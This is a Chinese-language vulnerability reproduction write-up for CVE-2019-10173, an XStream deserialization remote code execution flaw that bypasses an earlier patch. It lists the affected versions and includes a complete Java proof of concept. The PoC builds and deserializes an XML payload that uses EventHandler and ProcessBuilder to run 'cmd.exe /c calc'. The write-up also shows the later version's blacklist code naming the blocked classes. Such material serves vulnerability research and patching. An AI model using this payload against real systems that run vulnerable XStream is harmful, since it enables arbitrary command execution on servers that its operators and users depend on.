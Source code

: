 # CVE-2019-10173 Xstream 远程代码执行漏洞

### 一、漏洞简介

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

### 二、漏洞影响

XStream <= 1.4.6

XStream = 1.4.10

### 三、复现过程

**poc**


```bash
package com.bigo;

import com.thoughtworks.xstream.XStream;

import java.beans.EventHandler;
import java.io.IOException;
import java.util.Set;
import java.util.TreeSet;

/**
 * Created by cfchi on 2019/7/26.
 */
public class Main {
    public static String expGen(){
        XStream xstream = new XStream();
        Set<Comparable> set = new TreeSet<Comparable>();
        set.add("foo");
        set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc"), "start"));
        String payload = xstream.toXML(set);
        System.out.println(payload);
        return payload;
    }
    public static void main(String[] args) throws IOException {
        expGen();
        XStream xStream = new XStream();
        String payload = "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "    <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>cmd.exe</string>\n" +
                "                    <string>/c</string>\n" +
                "                    <string>calc</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "     <action>start</action>"+
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>\n";
       xStream.fromXML(payload);
    }
}

```

1.4.7版本白名单

![](images/15896427860075.png)


1.4.10版本，黑名单未开启

![](images/15896427938397.png)

1.4.10版本，黑名单未开启

![](images/15896428355583.png)


1.4.11版本，黑名单开启

黑名单


```java
private class InternalBlackList implements Converter {
    private InternalBlackList() {
    }

    public boolean canConvert(Class type) {
        return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized && type != null && (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
    }

    public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
        throw new ConversionException("Security alert. Marshalling rejected.");
    }

    public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
        throw new ConversionException("Security alert. Unmarshalling rejected.");
    }
}
```

![](images/15896428607039.png)


参考链接

http://www.polaris-lab.com/index.php/archives/658/